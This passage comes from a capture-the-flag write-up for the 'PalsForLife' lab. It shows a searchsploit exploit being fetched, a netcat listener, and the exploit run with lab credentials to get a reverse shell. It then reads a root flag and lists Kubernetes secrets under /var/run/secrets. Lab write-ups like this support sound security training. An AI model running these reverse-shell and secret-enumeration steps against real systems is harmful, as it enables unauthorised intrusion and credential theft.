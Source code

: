 <img width="1146" height="93" alt="image" src="https://github.com/user-attachments/assets/8835412c-1b01-41e9-89ea-c0bdfc0fac83" />

<br>

<img width="1283" height="541" alt="image" src="https://github.com/user-attachments/assets/9f0b6457-ad7b-4e8e-850c-124ab5dafa00" />

<br>

<img width="1262" height="643" alt="image" src="https://github.com/user-attachments/assets/9dba019b-47af-4f7b-b33b-a59c2c08cc42" />

<br>
<h3>searchsploit</h3>

```bash
:~/PalsForLife# searchsploit -m 49571.py
```

<br>

```bash
:~/PalsForLife# nc -nlvp 9001
```

<br>

```bash
:~/PalsForLife# python3 49571.py -t http://xx.xxx.xx.xxx:31111 -u 'leeroy' -p 'I_am_geniu5_P4ladin#' -I xx.xxx.xxx.xxx -P 9001
```

<br>
<img width="1325" height="596" alt="image" src="https://github.com/user-attachments/assets/5f77e094-3802-4a9c-87cb-88fd6c6e2b4d" />

<br>


```bash
bash-4.4$ whoami
git
bash-4.4$ id
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
bash-4.4$ ls /root
flag2.txt
bash-4.4$ cat /root/flag2.txt
flag{*****************}
```

<br>

<p>1.3. Flag 3. Hint : kubectl<br>
<code>flag{*****************}</code></p>

<br>

```bash
ls -lah /var/run/secrets/
total 12
drwxr-xr-x    3 root     root        4.0K Aug 11 xx:xx .
drwxr-xr-x    1 root     root        4.0K Aug 11 xx:xx ..
drwxr-xr-x    3 root     root        4.0K Aug 11 xx:xx kubernetes.io
```
